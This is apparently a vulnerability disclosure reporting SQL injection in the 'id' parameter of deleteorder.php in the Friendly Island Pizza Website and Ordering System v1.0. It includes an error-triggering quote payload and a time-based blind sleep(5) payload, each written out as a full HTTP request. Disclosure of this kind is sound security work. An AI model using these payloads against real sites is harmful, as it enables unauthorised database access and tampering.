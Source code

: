 # Friendly Island Pizza Website and Ordering System v1.0 has SQL injection

BUG_Author: a-xsg

Vulnerability File: /friendlyispizzawebsite/deleteorder.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1'

```
GET /friendlyispizzawebsite/deleteorder.php?id=1%27 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=aql7l22ttmd7fs98jtsq05lc6p
Connection: close
```

An error occurred in the sql statement

![image](https://github.com/a-xsg/bug_report/blob/main/vendors/picture/error.png)

Payload2:id=1' and (select 1 from (select(sleep(5)))a)-- 

```
GET /friendlyispizzawebsite/deleteorder.php?id=1%27%20and%20(select%201%20from%20(select(sleep(5)))a)--%20a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=aql7l22ttmd7fs98jtsq05lc6p
Connection: close
```

Server response time is 5 seconds

![image](https://github.com/a-xsg/bug_report/blob/main/vendors/picture/sleep.png)
